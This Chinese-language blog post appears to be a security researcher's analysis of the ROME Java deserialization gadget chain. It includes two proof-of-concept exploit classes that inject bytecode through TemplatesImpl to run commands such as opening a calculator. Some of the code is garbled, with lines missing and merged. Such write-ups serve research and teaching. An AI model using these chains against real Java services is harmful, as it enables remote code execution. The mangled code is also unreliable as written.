







ROME 是一个可以兼容多种格式的 feeds 解析器，可以从一种格式转换成另一种格式，也可返回指定格式或 Java 对象。
ROME 兼容了 RSS (0.90, 0.91, 0.92, 0.93, 0.94, 1.0, 2.0), Atom 0.3 以及 Atom 1.0 feeds 格式。
0x01 简要分析 com/sun/syndication/feed/impl/ObjectBean.java

很明显可以想到使用hashmap来触发hashcode，或者BadAttributeValueExpException触发toString()

构造函数可进行赋值。
com/sun/syndication/feed/impl/EqualsBean.javabeanHashCode()

可以看到hashcode可以触发javabeanHashCode()方法，进而触发toString方法。
EqualsBean继承了ser，_obj还是object，通过反射修改。很容易想到json序列化的后半条，或者lazymap的后半条。
0x02 ToStringBean.java com/sun/syndication/feed/impl/ToStringBean.java#toString()

它会调用同名方法 toString(String prefix)

这个方法会调用 BeanIntrospector.getPropertyDescriptors() 来获取 _beanClass 的全部 getter/setter 方法，然后判断参数长度为 0 的方法使用 _obj 实例进行反射调用，翻译成人话就是会调用所有 getter 方法拿到全部属性值，然后打印出来。
0x03 exp BadAttributeValueExpException->rome
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 package com.ser;import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;import com.sun.syndication.feed.impl.EqualsBean;import com.sun.syndication.feed.impl.ObjectBean;import javassist.ClassPool;import javassist.CtClass;import javax.management.BadAttributeValueExpException;import javax.xml.transform.Templates;import java.io.FileInputStream;import java.io.FileOutputStream;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;import java.lang.reflect.Field;import java.util.HashMap;public class Rome {public static void main (String[] args) throws Exception {String AbstractTranslet = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet" ;ClassPool classPool = ClassPool.getDefault();CtClass payload = classPool.makeClass("rome1" );"java.lang.Runtime.getRuntime().exec(\"open .\");" );byte [] bytes = payload.toBytecode();TemplatesImpl tmpl = new TemplatesImpl ();Field bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes" );true );new byte [][]{bytes});Field name = TemplatesImpl.class.getDeclaredField("_name" );true );"name" );ObjectBean delegate = new ObjectBean (Templates.class, tmpl);BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException (null );Field val = badAttributeValueExpException.getClass().getDeclaredField("val" );true );try {ObjectOutputStream outputStream = new ObjectOutputStream (new FileOutputStream ("./rome" ));ObjectInputStream inputStream = new ObjectInputStream (new FileInputStream ("./rome" ));catch (Exception e) {
hashmap->rome
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 package com.ser;import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;import com.sun.syndication.feed.impl.EqualsBean;import com.sun.syndication.feed.impl.ObjectBean;import com.sun.syndication.feed.impl.ToStringBean;import javassist.ClassPool;import javassist.CtClass;import javax.management.BadAttributeValueExpException;import javax.xml.transform.Templates;import java.io.FileInputStream;import java.io.FileOutputStream;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;import java.lang.reflect.Field;import java.util.HashMap;public class Rome {public static void main (String[] args) throws Exception {String AbstractTranslet = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet" ;ClassPool classPool = ClassPool.getDefault();CtClass payload = classPool.makeClass("rome1" );"java.lang.Runtime.getRuntime().exec(\"open -a calculator\");" );byte [] bytes = payload.toBytecode();TemplatesImpl tmpl = new TemplatesImpl ();Field bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes" );true );new byte [][]{bytes});Field name = TemplatesImpl.class.getDeclaredField("_name" );true );"name" );ToStringBean toStringBean = new ToStringBean (Templates.class, tmpl);ObjectBean root = new ObjectBean (ToStringBean.class, toStringBean);new HashMap <>();"test" );try {ObjectOutputStream outputStream = new ObjectOutputStream (new FileOutputStream ("./rome" ));ObjectInputStream inputStream = new ObjectInputStream (new FileInputStream ("./rome" ));catch (Exception e) {
总结 以上就是 ROME 链分析的全部内容了，最后总结一下。
利用说明：
利用 HashMap 反序列化触发 ObjectBean 的 hashCode 方法，再触发 ObjectBean 封装的 ObjectBean 的 toString 方法，会调用。
Gadget 总结：
kick-off gadget：java.util.HashMap#readObject()
sink gadget：com.sun.syndication.feed.impl.ToStringBean#toString()
chain gadget：com.sun.syndication.feed.impl.ObjectBean#toString()
调用链展示：
1 2 3 4 5 HashMap.readObject()
依赖版本
rome : 1.0
偷学剑招 https://su18.org/post/ysoserial-su18-5/#objectbean
http://www.bmth666.cn/2022/03/11/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BRome%E9%93%BE/